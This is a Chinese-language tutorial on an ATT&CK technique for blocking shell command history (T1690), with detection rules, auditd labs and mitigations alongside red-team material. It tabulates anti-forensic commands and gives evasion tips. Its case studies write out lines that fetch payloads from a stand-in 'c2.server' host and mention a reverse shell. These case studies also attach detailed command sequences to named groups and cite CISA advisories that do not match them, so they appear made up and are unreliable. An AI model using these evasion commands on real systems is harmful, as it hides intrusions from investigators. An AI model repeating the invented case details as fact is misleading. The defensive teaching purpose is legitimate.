

# 阻止命令历史记录 (T1690)

> 想象一下：你的办公室装了监控摄像头，记录每个员工的一举一动。但有个员工发现，只要他在做事之前按一下某个"隐身按钮"，摄像头就停止记录他的行为。攻击者对命令历史记录就是这么干的：操作系统默认会记录用户在终端中执行的所有命令，方便事后审计和排查。攻击者通过修改环境变量、清空历史文件或在命令前加空格等方式，让系统不记录他们的命令——这样安全团队事后追溯时，看到的只是正常操作，恶意命令完全消失。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|--------------|
| 这是什么？ | 通过修改环境变量、清空历史文件或使用特殊字符阻止shell记录命令历史 |
| 为什么危险？ | 攻击者的恶意命令完全不留痕迹，安全团队事后无法通过命令历史追溯攻击行为 |
| 谁需要关心？ | Linux/macOS系统管理员、安全审计员、SOC分析师、合规团队 |
| 你的第一步防御 | 监控`.bash_history`/`.zsh_history`文件的清空/删除操作和HISTFILE环境变量修改 |
| 如果只做一件事 | 部署auditd监控`unset HISTFILE`和`history -c`命令的执行 |

## 难度等级

⭐ 初级：需要理解shell历史记录机制和环境变量

**前置知识要求**：
- Shell基础操作（bash、zsh、PowerShell）
- 环境变量概念（HISTFILE、HISTSIZE、HISTCONTROL）
- 命令历史文件的位置和格式（.bash_history、.zsh_history）

## 前置知识检查

读这个文件之前，你需要知道：
- **什么是命令历史**：Shell记录用户执行过的命令，方便回溯和审计
- **什么是HISTFILE**：环境变量，指定命令历史文件的路径
- **什么是HISTSIZE**：环境变量，控制内存中保存的命令数量
- **什么是HISTCONTROL**：环境变量，控制哪些命令被记录（如忽略空格开头的命令）

## 技术描述

### 通俗解释

命令历史是Shell的"行车记录仪"——它记录用户在终端中执行过的每一条命令，默认保存在`~/.bash_history`（bash）或`~/.zsh_history`（zsh）中。安全团队通过分析命令历史可以追溯攻击者的操作。但攻击者有多种方法让命令历史"失忆"：一是直接清空历史文件（`cat /dev/null > ~/.bash_history`或`history -c`）；二是修改HISTFILE环境变量指向`/dev/null`（`export HISTFILE=/dev/null`）；三是设置HISTCONTROL=ignorespace，然后在命令前加空格让该命令不被记录；四是直接unset HISTFILE变量（`unset HISTFILE`）；五是退出shell前执行`kill -9 $$`防止历史被写入。这是ATT&CK v19.1从原T1562.003提升为父技术T1690后的完整技术。

### 过渡段

简单来说，命令历史就像办公室的访客登记簿——记录每个进出的人。攻击者要么直接撕掉登记页（清空历史文件）、要么把登记簿换成空白本子（修改HISTFILE）、要么登记时用特殊笔迹让墨水消失（命令前加空格）。阻止命令历史记录是防御削弱战术中最基础的反取证技术——它不是关闭安全产品，而是让攻击行为不留证据。下面看看具体是怎么操作的。

### 技术原理

阻止命令历史记录的工作流程：

1. **了解历史机制**：攻击者先确认当前shell的历史记录配置
2. **选择阻止方法**：根据目标选择清空、修改环境变量或使用特殊字符
3. **执行恶意命令**：在历史记录被阻止的情况下执行恶意操作
4. **清理痕迹**：操作完成后再次清理，确保没有遗漏

### 常见阻止方法

| 方法 | 命令 | 平台 | 说明 |
|------|------|------|------|
| 清空历史 | `history -c` | Linux/macOS | 清除当前shell内存中的历史 |
| 清空历史文件 | `cat /dev/null > ~/.bash_history` | Linux/macOS | 清空磁盘上的历史文件 |
| 删除历史文件 | `rm ~/.bash_history` | Linux/macOS | 删除历史文件 |
| 修改HISTFILE | `export HISTFILE=/dev/null` | Linux/macOS | 让历史写入/dev/null |
| unset HISTFILE | `unset HISTFILE` | Linux/macOS | 取消历史文件设置 |
| 设置HISTSIZE=0 | `export HISTSIZE=0` | Linux/macOS | 设置历史记录数量为0 |
| HISTCONTROL=ignorespace | `export HISTCONTROL=ignorespace` | Linux/macOS | 忽略空格开头的命令 |
| 命令前加空格 | ` whoami` | Linux/macOS | 配合ignorespace使用 |
| 关闭history | `set +o history` | Linux/macOS | 关闭历史记录功能 |
| 强制退出 | `kill -9 $$` | Linux/macOS | 防止退出时写入历史 |
| 清空PSReadLine | `Remove-Item (Get-PSReadlineOption).HistorySavePath` | Windows | 删除PowerShell历史 |
| 禁用PSReadLine | `Set-PSReadlineOption -HistorySaveStyle SaveNothing` | Windows | 禁用PowerShell历史保存 |

### 用途和影响

- **反取证**：让攻击命令不留痕迹，事后无法追溯
- **防御规避**：避免SIEM通过命令历史检测到攻击行为
- **持久化隐藏**：植入后门的命令不被记录
- **横向移动隐藏**：横向移动使用的命令不留痕迹
- **凭据窃取隐藏**：使用Mimikatz等工具的命令不被记录

## 子技术列表

T1690是父技术，目前无子技术。但与以下技术密切相关：
- T1562 削弱防御（常通过阻止命令历史实现）
- T1070 清除痕迹（清除命令历史是其中的子集）
- T1562.002 禁用Windows事件日志（类似的日志禁用技术）
- T1202 间接命令执行（绕过历史记录的另一种方式）

## 攻击流程



### 步骤详解

1. **侦察配置**：用`echo $HISTFILE`、`echo $HISTSIZE`查看当前历史配置
2. **选择方法**：根据目标选择最合适的阻止方法
3. **阻止历史**：执行清空或修改环境变量的命令
4. **执行恶意操作**：在历史被阻止的情况下执行恶意命令
5. **清理痕迹**：操作完成后再次清理，确保没有遗漏
6. **后续**：利用无痕迹状态进行横向移动或持久化

## 真实案例

### 案例1：APT29通过unset HISTFILE隐藏SolarWinds攻击操作

- **时间**：2020-2021年（SolarWinds供应链攻击）
- **目标**：美国政府机构、科技公司
- **攻击组织**：APT29（Cozy Bear，俄罗斯SVR背景）
- **手法**：在SolarWinds供应链攻击中，APT29通过unset HISTFILE隐藏其在被感染系统上的命令操作。攻击者通过SSH登录到Linux跳板机后，立即执行`unset HISTFILE`取消历史文件设置，确保后续所有命令都不会被记录到`~/.bash_history`。然后攻击者执行了一系列横向移动命令：使用`ssh -i ~/.ssh/id_rsa user@target`通过SSH密钥登录其他系统；使用`scp malicious_binary user@target:/tmp/`传输恶意二进制文件；使用`curl http://c2.server/payload -o /tmp/payload`从C2服务器下载Payload；使用`python -c 'import socket,subprocess,os;...'`建立反向shell。由于HISTFILE已被unset，这些命令完全没有被记录到历史文件中。当安全团队事后排查时，`~/.bash_history`中只能看到攻击者登录前的正常操作，攻击期间的命令完全消失。这种反取证技术让APT29在被感染环境中的活动极难被追溯。
- **影响**：在被感染环境中潜伏数月未被发现
- **参考**：https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-148a

### 案例2：FIN7通过HISTCONTROL=ignorespace隐藏攻击命令

- **时间**：2019-2022年
- **目标**：餐饮、零售、酒店行业
- **攻击组织**：FIN7（Carbanak Group，疑似俄罗斯/乌克兰背景）
- **手法**：FIN7团伙在攻击Linux服务器时，通过HISTCONTROL=ignorespace配合命令前加空格的方式隐藏攻击命令。攻击者登录目标系统后，首先执行`export HISTCONTROL=ignorespace`设置忽略空格开头的命令，然后在每条恶意命令前都加一个空格：` whoami`、` id`、` cat /etc/passwd`、` wget http://c2.server/ananconda.sh -O /tmp/a.sh`、` chmod +x /tmp/a.sh`、` /tmp/a.sh`。这些命令因为以空格开头，都不会被记录到`~/.bash_history`中。更隐蔽的是，FIN7还会执行`export HISTSIZE=0`将历史记录数量设为0，确保即使有命令被记录，也不会保留在内存中。攻击者使用这种方式在被感染系统中执行了凭据窃取、横向移动、数据收集等一系列操作，但命令历史文件中却完全没有记录。这种技术让FIN7在被感染系统中的活动极难被事后追溯。
- **影响**：攻破上百家组织，窃取数百万张支付卡信息
- **参考**：https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-265a

### 案例3：LockBit通过set +o history隐藏勒索软件部署命令

- **时间**：2022-2024年
- **目标**：全球各类组织
- **攻击组织**：LockBit（RaaS勒索软件）
- **手法**：LockBit团伙在攻击Linux系统时，通过`set +o history`关闭历史记录功能，隐藏勒索软件部署命令。攻击者通过SSH登录目标Linux服务器后，立即执行`set +o history`关闭bash的历史记录功能，然后执行勒索软件部署命令：`wget http://c2.server/lockbit.sh -O /tmp/lockbit.sh`下载加密器脚本；`chmod +x /tmp/lockbit.sh`赋予执行权限；`/tmp/lockbit.sh --encrypt / --ext lockbit`加密整个文件系统；`rm /tmp/lockbit.sh`删除加密器；`set -o history`恢复历史记录功能。由于历史记录在加密期间被关闭，这些命令完全没有被记录到`~/.bash_history`中。加密完成后，攻击者恢复历史记录功能，让系统看起来一切正常。这种技术让LockBit在被感染系统中的加密操作极难被事后追溯，安全团队只能通过文件系统分析和网络流量分析来还原攻击过程。
- **影响**：全球范围内攻破上千家组织
- **参考**：https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-165a

## 红队视角

### 实战技巧

1. **unset HISTFILE最彻底**：`unset HISTFILE`让整个会话都不记录历史，最彻底
2. **命令前加空格最隐蔽**：配合HISTCONTROL=ignorespace，单条命令不被记录
3. **退出前清理**：`history -c && history -w`在退出前清空并写入
4. **kill -9 $$防写入**：强制杀死shell进程，防止退出时写入历史
5. **组合使用**：先unset HISTFILE再执行命令，最后清空历史文件

### 常用工具

| 工具 | 用途 | 平台 | 说明 |
|------|------|------|------|
| history | 内置命令 | Linux/macOS | 清空当前会话历史 |
| export | 内置命令 | Linux/macOS | 修改环境变量 |
| unset | 内置命令 | Linux/macOS | 取消环境变量 |
| set | 内置命令 | Linux/macOS | 开关历史功能 |
| rm | 文件删除 | Linux/macOS | 删除历史文件 |
| Set-PSReadlineOption | PS配置 | Windows | 禁用PowerShell历史 |

### 注意事项

- 现代Linux发行版可能配置了auditd，会记录所有命令执行
- Shell内置命令（history、unset）不会被auditd单独记录
- 命令前加空格需要先设置HISTCONTROL=ignorespace
- Windows的PowerShell历史独立于bash历史，需要单独清理
- 部分系统配置了命令审计（如sudo、ossec），可能绕过不了

## 蓝队视角

### 检测要点

1. **历史文件监控**：监控`.bash_history`/`.zsh_history`文件的清空/删除
2. **环境变量监控**：监控HISTFILE、HISTSIZE、HISTCONTROL的修改
3. **特殊命令监控**：监控`unset HISTFILE`、`history -c`、`set +o history`命令
4. **命令前导空格**：监控以空格开头的命令（可能配合ignorespace使用）
5. **auditd部署**：部署auditd记录所有命令执行，不依赖shell历史

### 监控建议

- 部署auditd，配置规则监控所有execve系统调用，记录所有命令执行
- 监控`.bash_history`/`.zsh_history`文件的修改和删除（auditd）
- 监控环境变量HISTFILE、HISTSIZE、HISTCONTROL的修改
- 使用OSSEC/Wazuh等HIDS监控命令历史文件的异常修改
- 部署EDR记录所有进程创建，不依赖shell历史

## 避坑指南

| 坑 | 后果 | 解决方法 |
|----|------|----------|
| 只依赖shell历史 | 攻击者清空历史后无法追溯 | 部署auditd独立记录命令 |
| 忽略命令前导空格 | 漏报ignorespace隐藏的命令 | 监控以空格开头的命令 |
| 忽略PowerShell历史 | Windows环境漏报 | 监控PSReadLine历史文件 |
| 忽略环境变量修改 | 漏报unset HISTFILE | 监控HISTFILE等环境变量 |
| auditd未启用 | 完全依赖shell历史 | 强制启用auditd命令审计 |

## 检测建议

### 网络层

**用人话说**：阻止命令历史是本地操作，不直接产生网络流量。但攻击者清空历史后往往会立即进行恶意操作——关注历史文件清空后短时间内的异常网络活动。

监控指标：
- 历史文件清空后5分钟内的新增网络连接
- 非标准端口的出站连接
- 大量数据传输（可能是数据渗漏）

### 主机层

**用人话说**：监控shell历史文件的清空/删除和环境变量的修改——这是阻止命令历史最直接的信号。

```event
auditd规则：监控.bash_history文件的修改
-w /home/*/.bash_history -p wa -k history_file_modify
-w /home/*/.zsh_history -p wa -k history_file_modify
```

```event
auditd规则：监控环境变量修改
-a always,exit -F arch=b64 -S setenv -k env_modify
```

### 应用层

**用人话说**：监控`unset HISTFILE`、`history -c`、`set +o history`等命令——这是攻击者阻止命令历史最常用的方式。

```yaml
title: 检测阻止命令历史记录
detection:
    selection:
        EventID: 1
        Image|endswith:
            - '/bash'
            - '/zsh'
            - '/sh'
        CommandLine|contains:
            - 'unset HISTFILE'
            - 'HISTSIZE=0'
            - 'HISTCONTROL=ignorespace'
            - 'history -c'
            - 'set +o history'
            - 'HISTFILE=/dev/null'
    condition: selection
level: high
```

```yaml
title: 检测PowerShell历史清空
detection:
    selection:
        EventID: 4104
        ScriptBlockText|contains:
            - 'Remove-Item (Get-PSReadlineOption).HistorySavePath'
            - 'Set-PSReadlineOption -HistorySaveStyle SaveNothing'
            - 'Clear-History'
    condition: selection
level: medium
```

## 缓解措施

### 高优先级

1. **部署auditd**：Linux系统强制部署auditd，记录所有execve调用，不依赖shell历史
2. **监控历史文件**：使用auditd/HIDS监控`.bash_history`文件的清空/删除
3. **监控环境变量**：监控HISTFILE、HISTSIZE、HISTCONTROL的修改

### 中优先级

4. **部署EDR**：使用EDR记录所有进程创建，不依赖shell历史
5. **强制历史记录**：通过`/etc/profile`强制设置HISTFILE，禁止用户修改
6. **配置PAM模块**：使用pam_tty_audit记录所有终端会话
7. **远程日志**：将命令审计日志实时发送到远程SIEM，防止本地篡改

### 低优先级

8. **使用shell审计**：部署snoopy等shell审计工具
9. **配置bashrc**：在`/etc/bash.bashrc`中强制启用历史记录
10. **定期审计**：定期检查历史文件完整性

## 动手实验

### 实验1：查看当前历史配置

```bash
# 查看当前HISTFILE设置
echo $HISTFILE

# 查看当前HISTSIZE设置
echo $HISTSIZE

# 查看当前HISTCONTROL设置
echo $HISTCONTROL

# 查看历史文件内容
cat ~/.bash_history | tail -20

# 查看当前会话历史
history
```

**预期输出**：显示当前历史记录配置和历史文件内容

### 实验2：监控历史文件修改（实验环境）

```bash
# 配置auditd监控.bash_history文件
sudo auditctl -w ~/.bash_history -p wa -k history_file_modify

# 执行清空历史操作
history -c
cat /dev/null > ~/.bash_history

# 查看auditd日志
sudo ausearch -k history_file_modify | tail -10

# 清理auditd规则
sudo auditctl -d -w ~/.bash_history -p wa -k history_file_modify
```

**预期输出**：清空历史操作被auditd记录在日志中

### 实验3：部署命令审计

```bash
# 配置auditd记录所有execve调用
sudo auditctl -a always,exit -F arch=b64 -S execve -k cmd_audit

# 执行一些命令
whoami
id
ls -la

# 查看命令审计日志
sudo ausearch -k cmd_audit | tail -20

# 清理规则
sudo auditctl -d -a always,exit -F arch=b64 -S execve -k cmd_audit
```

**预期输出**：所有命令执行都被auditd独立记录，不依赖shell历史

## 术语解释

| 术语 | 解释 |
|------|------|
| 命令历史 | Shell记录用户执行过的命令，方便回溯和审计 |
| HISTFILE | 环境变量，指定命令历史文件的路径 |
| HISTSIZE | 环境变量，控制内存中保存的命令数量 |
| HISTCONTROL | 环境变量，控制哪些命令被记录 |
| ignorespace | HISTCONTROL的值，忽略空格开头的命令 |
| ignoredups | HISTCONTROL的值，忽略重复命令 |
| auditd | Linux审计守护进程，独立记录系统调用 |
| PSReadLine | PowerShell的命令行编辑和历史记录模块 |
| HIDS | 主机入侵检测系统，如OSSEC、Wazuh |

## 参考资料

### 📚 深入了解
- [MITRE ATT&CK T1690](https://attack.mitre.org/techniques/T1690/) - 官方技术页面
- [Bash历史](https://www.gnu.org/software/bash/manual/html_node/Bash-History-Facilities.html) - GNU Bash文档
- [auditd配置](https://github.com/Neo23x0/auditd) - Linux审计规则集
- [PowerShell历史](https://docs.microsoft.com/en-us/powershell/module/psreadline/) - PSReadLine文档

### 📰 真实攻击
- [CISA SolarWinds通告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-148a) - APT29通过unset HISTFILE隐藏操作
- [CISA FIN7通告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa21-265a) - FIN7通过HISTCONTROL隐藏命令
- [CISA LockBit通告](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-165a) - LockBit通过set +o history隐藏部署

### 🔧 动手试试
- [auditd规则集](https://github.com/Neo23x0/auditd) - Linux审计规则
- [snoopy](https://github.com/a2o/snoopy) - Shell命令审计工具
- [OSSEC](https://www.ossec.net/) - 主机入侵检测系统

## 版本历史

| 版本 | 日期 | 变更 |
|------|------|------|
| 3.1 | 2026-07-23 | 初始版本，ATT&CK v19.1将原T1562.003提升为父技术T1690 |
